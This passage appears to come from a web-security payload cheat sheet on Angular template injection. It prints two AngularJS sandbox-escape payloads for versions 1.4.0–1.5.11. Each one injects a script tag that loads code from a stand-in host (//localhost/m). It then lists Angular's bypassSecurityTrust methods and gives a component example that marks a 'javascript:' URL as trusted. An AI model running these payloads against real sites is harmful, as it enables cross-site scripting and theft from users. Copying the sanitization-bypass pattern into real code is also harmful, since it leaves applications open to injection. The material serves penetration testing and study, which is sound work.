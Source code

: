 1.4.0 - 1.5.8 by Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');
    _.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

1.5.9 - 1.5.11 by Jan Horn (Cure53, now works at Google Project Zero)

```javascript
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;c.$apply=$apply;
    c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("astNode=pop();astNode.type='UnaryExpression';astNode.operator='(window.X?void0:(window.X=true,eval(`var _=document.createElement(\\'script\\');_.src=\\'//localhost/m\\';document.body.appendChild(_);`)))+';astNode.argument={type:'Identifier',name:'foo'};");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

## Automatic Sanitization

> To systematically block XSS bugs, Angular treats all values as untrusted by default. When a value is inserted into the DOM from a template, via property, attribute, style, class binding, or interpolation, Angular sanitizes and escapes untrusted values.

However, it is possible to mark a value as trusted and prevent the automatic sanitization with these methods:

- bypassSecurityTrustHtml
- bypassSecurityTrustScript
- bypassSecurityTrustStyle
- bypassSecurityTrustUrl
- bypassSecurityTrustResourceUrl

Example of a component using the unsecure method `bypassSecurityTrustUrl`:

```
import { Component, OnInit } from '@angular/core';

@Component({
  selector: 'my-app',
  template: `
    <h4>An untrusted URL:</h4>
    <p><a class="e2e-dangerous-url" [href]="dangerousUrl">Click me</a></p>
    <h4>A trusted URL:</h4>
    <p><a class="e2e-trusted-url" [href]="trustedUrl">Click me</a></p>
  `,
})
export class App {
  constructor(private sanitizer: DomSanitizer) {
    this.dangerousUrl = 'javascript:alert("Hi there")';
    this.trustedUrl = sanitizer.bypassSecurityTrustUrl(this.dangerousUrl);
  }
}
```
